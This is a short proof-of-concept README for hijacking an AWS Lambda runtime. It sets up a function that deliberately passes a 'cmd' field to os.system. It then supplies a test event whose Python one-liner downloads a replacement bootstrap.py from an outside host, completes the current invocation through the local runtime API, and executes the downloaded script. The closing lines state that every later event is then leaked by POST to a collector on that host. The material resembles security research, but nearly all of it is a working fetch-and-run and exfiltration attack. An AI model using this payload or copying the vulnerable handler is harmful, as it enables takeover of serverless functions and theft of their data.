 # Instructions for POC

- Create a new lambda with a python 3.8 runtime
- set timeout to > 4 seconds
- make it vuln:
```
import json
import os

def lambda_handler(event, context):
    # TODO implement
    return {
        'statusCode': 200,
        'body': os.system(event['cmd'])
    }
```



### test event to supply the lambda to execute the bootstrap swap:
```
{
  "cmd": "python3 -c \"import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://appointmentaid.com/bootstrap.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')\"",
}
```

After swapping the bootstrap all subsequent events will be leaked in a POST request to https://www.appointmentaid.com/postcatcher.php and can be viewed at https://www.appointmentaid.com/lambda.txt
